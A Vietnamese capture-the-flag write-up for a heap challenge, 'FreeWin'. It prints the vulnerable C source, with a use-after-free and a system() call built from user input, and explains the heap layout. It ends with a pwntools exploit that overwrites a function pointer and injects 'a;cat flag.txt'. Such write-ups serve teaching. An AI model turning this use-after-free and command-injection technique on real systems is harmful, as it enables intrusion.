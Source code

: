 # source code

<details> <summary> script </summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct
{
    char header[0x20]; // Not used yet, but will be used in order to specify the type of the entry
    int (*function)(const char *);
    char *buffer;
    int size;
} * entries[0x10] = {0};

void get_str(char *buffer, int length)
{
    printf(" >> ");
    fflush(stdout);
    fgets(buffer, length, stdin);

    // Set last character to 0 if it is a newline
    size_t len = strlen(buffer);
    if (buffer[len - 1] == '\n')
        buffer[len - 1] = 0;
}

int get_int(int min, int max)
{
    char input[0x10];
    get_str(input, 0x10);

    int int_input = atoi(input);

    if (int_input > max || int_input < min)
    {
        fprintf(stderr, "Incorrect input\n");
        exit(-1);
    }
}

int menu()
{
    puts("Welcome to FreeWin !");
    puts("");
    puts("  1.  Malloc");
    puts("  2.  Free");
    puts("  3.  Edit");
    puts("  4.  Execute");
    puts("");
    fflush(stdout);

    int choice = get_int(1, 4);

    return choice;
}

void malloc_chunk()
{
    puts("Index:");
    int index = get_int(0, 0x10);

    entries[index] = malloc(sizeof(**entries));

    puts("Size:");
    entries[index]->size = get_int(0x10, 0x100);

    puts("Buffer:");
    printf("%d\n", entries[index]->size);
    entries[index]->buffer = malloc(entries[index]->size);
    get_str(entries[index]->buffer, entries[index]->size);

    // TODO: Add options on function -> Let the user choose between different functions
    entries[index]->function = puts;
}

void free_chunk()
{
    puts("Index:");
    int index = get_int(0, 0x10);

    char *buffer = entries[index]->buffer;

    free(entries[index]);
    free(buffer);
}

void edit_chunk()
{
    puts("Index:");
    int index = get_int(0, 0x10);

    puts("Buffer:");
    get_str(entries[index]->buffer, entries[index]->size);
}

void execute_chunk()
{
    puts("Index:");
    int index = get_int(0, 0x10);

    entries[index]->function(entries[index]->buffer);
}

// Not used yet, but will be used in a later version as a choice between different functions
int execute_chunk_ping(char *buffer)
{
    char cmd[0x100] = {0};
    sprintf(cmd, "ping -c 1 %s", buffer);

    system(cmd);

    return 0;
}

int main()
{
    for (int choice = menu(); choice; choice = menu())
    {
        switch (choice)
        {
        case 1:
            malloc_chunk();
            break;

        case 2:
            free_chunk();
            break;

        case 3:
            edit_chunk();
            break;

        case 4:
            execute_chunk();
            break;

        default:
            fprintf(stderr, "An error happened\n");
            fflush(stderr);
            exit(-1);
        }
    }
}
```

</details>

# Ý tưởng

- Ở đây ta thấy có hàm có thể là mục tiêu mà chúng ta nhắm đến

```c
int execute_chunk_ping(char *buffer)
{
    char cmd[0x100] = {0};
    sprintf(cmd, "ping -c 1 %s", buffer);

    system(cmd);

    return 0;
}
```

- Chúng ta chú ý một xíu về hàm free(), khi free một chunk, không hẳn chunk đó bị xoá dữ liệu, chỉ đơn giản là set chunk đó đang không hoạt động
  ![image](https://github.com/wan-hyhty/trainning/assets/111769169/c8eb94b3-2bec-48e4-a50b-ffe2ea67cf47)

- Oke, chỗ này ta chú ý `entries[index]->function = puts;` nghĩ là nó gán địa chỉ của puts vào function.
- và, khi `entries[index]->function(entries[index]->buffer);` nó sẽ tương tự như là `puts(địa chỉ buffer)`
- ở `execute_chunk_ping` ta thấy ta có thể đưa địa chỉ của hàm này vào function.

- Ta thấy nó sẽ tạo 2 chunk trong option 1, một chunk 0x40 và một chunk do size ta quyết định
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/8bf5679a-85e1-438b-92d3-9ee94364fbf9)
- thì chunk 0x40 sẽ chứa địa chỉ puts
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/0d7027c3-adb4-46f4-9266-b28274fa80c6)

- vậy ta sẽ tạo 2 chunk bất kì và free nó, khi này ta tạo 1 thêm 2 chunk có size < 0x40, khi ấy chương trình sẽ lấy ra 2 chunk 0x40 và ta có thể ghi đè được địa chỉ puts

# Khai thác

- tạo 2 chunk 0x10 byte và free chúng, sau đó tạo 1 chunk < 0x40 (để lấy chunk chứa địa chỉ puts)
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/ced35482-ec55-4bf1-b3f6-33e915d5eb1d)
- sửa payload một xíu để ta ghi đè puts()
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/18bc9ed2-43cb-43b3-b00e-6d060f623fa0)
- Bây giờ khi ta chọn option 3 nó không còn là puts nữa mà giờ nó là `execute_chunk_ping` và tham số buffer sẽ là buffer của chunks đó

```python
malloc(b"0", b"24", b"aaaaaa")
malloc(b"1", b"24", b"aaaaaa")

free(b"1")
free(b"0")

payload = b"\0" * 32 + p64(exe.sym['execute_chunk_ping'])
malloc(b"0", b"56", payload)
edit(b"1", b"a;cat flag.txt\n")

execute(b"1")
```

chall hơi lỏ lúc được lúc không ạ =((
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/76bd9768-b185-49a0-a21f-d0a3ab3b7b87)

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('free_win', checksec=False)
# libc = ELF('libc-2.27.so', checksec=False)
context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
                b* execute_chunk_ping + 1

                c
                ''')
        input()


def info(msg): return log.info(msg)
def sla(msg, data): return p.sendlineafter(msg, data)
def sa(msg, data): return p.sendafter(msg, data)
def sl(data): return p.sendline(data)
def s(data): return p.send(data)


if args.REMOTE:
    p = remote('')
else:
    p = process(exe.path)

GDB()


def malloc(index, size, buffer):
    sla(b">> ", b"1")
    sla(b">> ", index)
    sla(b">> ", size)
    sla(b">> ", buffer)


def free(index):
    sla(b">> ", b"2")
    sla(b">> ", index)


def edit(index, buffer):
    sla(b">> ", b"3")
    sla(b">> ", index)
    sa(b">> ", buffer)


def execute(index):
    sla(b">> ", b"4")
    sla(b">> ", index)


malloc(b"0", b"24", b"aaaaaa")
malloc(b"1", b"24", b"aaaaaa")
# malloc(b"2", b"16", b"aaaaaa")

free(b"1")
free(b"0")

payload = b"\0" * 32 + p64(exe.sym['execute_chunk_ping'])
malloc(b"0", b"56", payload)
edit(b"1", b"a;cat flag.txt\n")

execute(b"1")

p.interactive()
```
